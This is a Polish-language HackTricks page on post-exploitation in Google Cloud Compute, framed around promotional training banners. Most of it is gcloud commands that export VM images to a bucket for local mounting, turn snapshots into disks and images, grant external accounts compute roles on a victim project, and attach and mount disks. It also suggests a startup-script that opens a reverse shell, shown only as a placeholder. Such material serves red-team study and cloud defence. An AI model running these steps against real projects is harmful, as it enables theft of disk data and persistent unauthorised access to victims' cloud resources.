 # GCP - Compute Post Exploitation

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (Sieciowanie), sprawdź:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksportuj i sprawdź obrazy lokalnie

To umożliwi atakującemu **dostęp do danych zawartych w już istniejących obrazach** lub **tworzenie nowych obrazów działających maszyn wirtualnych** i dostęp do ich danych bez dostępu do działającej maszyny wirtualnej.

Możliwe jest wyeksportowanie obrazu maszyny wirtualnej do kubełka, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Przed wykonaniem tej czynności atakujący może potrzebować uprawnień do kubełka przechowywania i na pewno **uprawnień do cloudbuild**, ponieważ to **usługa**, która zostanie poproszona o wykonanie eksportu.\
Ponadto, aby to działało, SA codebuild i SA compute potrzebują uprzywilejowanych uprawnień.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksportuj i sprawdź lokalnie migawki i dyski

Nie można bezpośrednio eksportować migawek i dysków, ale można **przekształcić migawkę w dysk, dysk w obraz** i zgodnie z **poprzednim rozdziałem**, wyeksportować ten obraz, aby go lokalnie sprawdzić.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcja obrazu tworząc wirtualną maszynę

Z celem uzyskania dostępu do **danych przechowywanych w obrazie** lub wewnątrz **uruchomionej wirtualnej maszyny**, z której atakujący **utworzył obraz**, można udzielić zewnętrznemu kontu dostępu do obrazu:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

a następnie utwórz nową maszynę wirtualną z niego:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Jeśli nie możesz udostępnić swojego zewnętrznego konta dostępu do obrazu, możesz uruchomić maszynę wirtualną (VM) korzystając z tego obrazu w projekcie ofiary i **ustawić metadane tak, aby wykonały odwróconą powłokę** w celu uzyskania dostępu do obrazu, dodając parametr:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Sprawdź migawkę/dysk, podłączając go do maszyny wirtualnej

Aby uzyskać dostęp do danych przechowywanych na dysku lub migawce, możesz przekształcić migawkę w dysk, dysk w obraz i kontynuować poprzednie kroki.

Możesz również udzielić dostępu zewnętrznemu kontu do dysku (jeśli punktem wyjścia jest migawka, udziel dostępu do migawki lub utwórz dysk na jej podstawie):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Podłącz dysk** do instancji:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Zamontuj dysk wewnątrz maszyny wirtualnej:

1. **Zaloguj się przez SSH do maszyny wirtualnej**:

```sh
gcloud compute ssh [NAZWA_INSTANCJI] --zone [STREFA]
```

2. **Zidentyfikuj dysk**: Po zalogowaniu się do maszyny wirtualnej, zidentyfikuj nowy dysk, listując urządzenia dyskowe. Zazwyczaj można go znaleźć jako `/dev/sdb`, `/dev/sdc`, itd.
3. **Sformatuj i zamontuj dysk** (jeśli jest to nowy lub surowy dysk):

* Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[KATALOG_MONTOWANIA]
```

* Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[URZĄDZENIE_DYSKU] /mnt/disks/[KATALOG_MONTOWANIA]
```

Jeśli **nie możesz udostępnić projektowi zewnętrznemu** migawki lub dysku, możesz potrzebować **wykonać te czynności wewnątrz instancji w tym samym projekcie co migawka/dysk**.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

